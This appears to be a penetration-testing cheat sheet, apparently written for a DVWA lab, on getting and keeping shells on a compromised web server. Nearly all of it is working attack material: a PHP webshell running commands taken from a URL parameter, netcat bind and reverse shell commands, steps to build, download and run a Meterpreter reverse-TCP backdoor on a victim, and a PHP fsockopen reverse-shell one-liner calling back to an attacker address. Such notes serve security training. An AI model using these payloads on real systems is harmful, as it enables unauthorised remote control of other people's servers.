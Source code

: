 # Shells

## Webshell (PHP)
```php
<?php
echo shell_exec($_GET['cmd'] . ' 2>&1');
?>
```
**Example:**  
`http://192.168.100.3/dvwa/hackable/uploads/shell.php?cmd=ls`  
Try `cmd=nc -h` to check whether `-e` option is available.

## Bind Shell
`http://192.168.100.3/dvwa/hackable/uploads/shell.php?cmd=nc -e /bin/bash -lp 1234`  
`nmap -p 1234 192.168.100.3`  
`nc 192.168.100.3 1234`

## Reverse Shell
`http://192.168.100.3/dvwa/hackable/uploads/shell.php?cmd=nc -e /bin/bash 192.168.100.2 1234`  
`nmap -p 1234 192.168.100.2`  
`nc -vv -lp 1234`

## Creating Metasploit Backdoor
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
**Example:**
```
msfpc Linux 192.168.100.2 5678 MSF REVERSE TCP
msfconsole -q -r '/home/kali/Downloads/linux-meterpreter-staged-reverse-tcp-5678-elf.rc'
cp linux-meterpreter-staged-reverse-tcp-5678.elf /var/www/html/backdoor.elf
# On victim:
192.168.100.2 && wget http://192.168.100.2/backdoor.elf
192.168.100.2 && chmod +x backdoor.elf
192.168.100.2 && ./backdoor.elf
```

## Meterpreter session commands
- `sessions -i`  
- `sessions -i 1`  
- `sysinfo`  
- `getuid`  
- `shell`  (to get a native Linux shell)

## If the shell is not interactive
```bash
php -r '$sock=fsockopen("192.168.100.2",4321);exec("/bin/bash -i <&3 >&3 2>&3");'
nc -vv -lp 4321   # Catch the shell - Interactive
```

## Shells : Bad Guys Perspective
Search for `php webshells` (test and upload in a safe lab environment).  
Example webshell to try: `Predator.php` (upload and browse).
